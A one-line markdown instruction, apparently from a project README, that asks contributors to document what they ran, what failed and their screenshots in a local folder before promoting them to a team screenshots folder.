Document **what you ran**, **what failed**, and **screenshots** under [`../Screenshots/`](../Screenshots/) before promoting to team [`../../1_Screenshots/`](../../1_Screenshots/).
